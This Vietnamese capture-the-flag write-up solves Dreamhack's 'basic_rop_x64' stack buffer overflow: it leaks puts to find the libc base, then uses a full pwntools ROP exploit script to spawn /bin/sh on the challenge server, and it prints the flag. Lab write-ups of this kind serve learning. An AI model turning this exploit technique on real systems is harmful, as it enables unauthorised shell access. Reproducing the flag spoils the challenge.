



**1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}

```

Chương trình khai báo biến `buf` 0x40 byte nhưng cho nhập 0x400 byte nên có lỗi `bof`

**2. Ý tưởng**

Sử dụng `ROPgadget` để tìm kiếm một số thanh ghi:

```
pop_rdi = 0x0000000000400883
pop_rsi_r15 = 0x0000000000400881
```

Không đủ để thực hiện `ROP` nhưng có thanh ghi rdi. Kiểm tra bảng `got` xem: 



Có một số hàm nên có thể tận dụng hàm `puts` để leak địa chỉ của hàm `puts` từ đó leak được địa chỉ libc. Rồi sau đó getshell bằng `ROP` vơi scacs thanh ghi trong libc

**3. Khai thác**

```
   0x00000000004007e7 <+45>:    lea    rax,[rbp-0x40]
   0x00000000004007eb <+49>:    mov    edx,0x400
   0x00000000004007f0 <+54>:    mov    rsi,rax
   0x00000000004007f3 <+57>:    mov    edi,0x0
   0x00000000004007f8 <+62>:    call   0x4005f0 <read@plt>
```

Ta thấy biến `buf` cách rbp 0x40 byte nên phải nhập 0x40 + 0x8 byte rác mới tới `ret`. Sau đó tận dụng `rdi` và hàm `puts` để lấy được địa chỉ hàm puts rồi leak được libc base.

```
payload = b'a'*(0x40 + 0x8)
payload += p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.send(payload)
```



Chương trình trả về 0x40 byte a và 6 byte của 1 địa chỉ hàm `puts`. Vậy ta tính được địa chỉ libc như sau:

```
r.recvuntil(b'a'*0x40)
puts_leak = u64(r.recv(6) + b'\x00\x00')
log.info("puts leak: " + hex(puts_leak))
libc.address = puts_leak - libc.sym['puts']
log.info("libc base: " + hex(libc.address))
```

Tiếp theo đi tìm các gadget trong file libc:

```
pop_rdi = libc.address + 0x0000000000021102
pop_rsi = libc.address + 0x00000000000202e8
pop_rdx = libc.address + 0x0000000000001b92
pop_rax = libc.address + 0x0000000000033544
syscall = libc.address + 0x00000000000026bf
```

Tiếp theo nhập tràn đến ret và `ROP` là xong

```
payload = b'a'*(0x40 + 0x8)
payload += p64(pop_rdi) + p64(next(libc.search(b"/bin/sh")))
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rdx) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)
r.sendline(payload)
```

Ta có script như sau:

```
from pwn import *

exe = ELF('basic_rop_x64', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 16149)
libc = ELF('libc.so.6', checksec=False)

pop_rdi = 0x0000000000400883
pop_rsi_r15 = 0x0000000000400881

#input()
payload = b'a'*(0x40 + 0x8)
payload += p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.send(payload)
r.recvuntil(b'a'*0x40)
puts_leak = u64(r.recv(6) + b'\x00\x00')
log.info("puts leak: " + hex(puts_leak))
libc.address = puts_leak - libc.sym['puts']
log.info("libc base: " + hex(libc.address))

pop_rdi = libc.address + 0x0000000000021102
pop_rsi = libc.address + 0x00000000000202e8
pop_rdx = libc.address + 0x0000000000001b92
pop_rax = libc.address + 0x0000000000033544
syscall = libc.address + 0x00000000000026bf

payload = b'a'*(0x40 + 0x8)
payload += p64(pop_rdi) + p64(next(libc.search(b"/bin/sh")))
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rdx) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)
r.sendline(payload)

r.interactive()
```

**4. Lấy flag**



'Flag: DH{357ad9f7c0c54cf85b49dd6b7765fe54}'